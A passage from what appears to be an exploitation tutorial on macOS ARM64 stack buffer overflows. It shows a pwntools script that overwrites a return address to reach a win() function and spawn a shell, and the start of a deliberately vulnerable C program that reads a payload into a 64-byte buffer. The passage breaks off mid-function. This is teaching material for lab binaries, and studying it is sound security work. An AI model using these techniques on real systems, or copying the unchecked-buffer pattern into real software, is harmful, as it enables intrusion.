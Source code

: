 ```

# Load the binary
binary_name = './bof_macos'

# Start the process
p = process(binary_name, env={"DYLD_DISABLE_ASLR": "1"})

# Read the address printed by the program
output = p.recvline().decode()
print(f"Received: {output.strip()}")

# Extract the win() address using regex
match = re.search(r'win\(\) is at (0x[0-9a-fA-F]+)', output)
if not match:
    print("Failed to extract win() address")
    p.close()
    exit(1)

win_address = int(match.group(1), 16)
print(f"Extracted win() address: {hex(win_address)}")

# Offset calculation:
# Buffer starts at sp, return address at sp+0x40 (64 bytes)
# We need to fill 64 bytes, then overwrite the saved x29 (8 bytes), then x30 (8 bytes)
offset = 64 + 8  # 72 bytes total to reach the return address

# Craft the payload - ARM64 addresses are 8 bytes
payload = b'A' * offset + p64(win_address)
print(f"Payload length: {len(payload)}")

# Send the payload
p.send(payload)

# Drop to an interactive session
p.interactive()
```
```
## macOS - 2nd example

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

__attribute__((noinline))
void leak_anchor(void) {
    puts("leak_anchor reached");
}

__attribute__((noinline))
void win(void) {
    puts("Killed it!");
    system("/bin/sh");
    exit(0);
}

__attribute__((noinline))
void vuln(void) {
    char buf[64];
    FILE *f = fopen("/tmp/exploit.txt", "rb");
    if (!f) {
        puts("[*] Please create /tmp/exploit.txt with your payload");
```